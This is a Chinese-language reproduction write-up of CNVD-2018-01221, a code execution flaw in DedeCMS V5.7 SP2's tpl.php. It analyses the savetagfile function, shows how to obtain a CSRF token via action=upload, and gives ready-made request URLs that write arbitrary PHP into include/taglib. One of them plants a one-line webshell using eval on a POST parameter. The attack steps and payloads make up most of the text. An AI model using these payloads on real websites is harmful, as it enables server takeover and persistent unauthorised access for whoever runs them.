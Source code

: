 # CNVD-2018-01221 DedeCMS V5.7 SP2存在代码执行漏洞

## 一、漏洞简介

DedeCMS V5.7 SP2版本中tpl.php存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取webshell

## 二、漏洞影响

## 三、复现过程

需要登录后台

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件

![](images/15889897578094.png)


代码分析


```
(1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
(2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
(3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
   [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
   所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
(4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
(5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
(6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
   导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了
```

根据上面的代码知道要上传的参数有：`action,token,filename,content`.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如`del，upoladok，edit，upload`等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过`action=upload`来获取token。

**漏洞复现**

获取token


```
http://url/dede/tpl.php?action=upload
```

![](images/15889898109242.png)


然后查看网页源代码，找到token

![](images/15889898172785.png)


构造payload如下


```
http://url/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token)
```

访问了成功写入

![](images/15889898382075.png)


访问写入的文件


```
http://url/include/taglib/（你上传的文件名）.lib.php
```

![](images/15889898563977.png)


也可以构造一句话木马payload


```
http://url/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929
```

![](images/15889898765733.png)
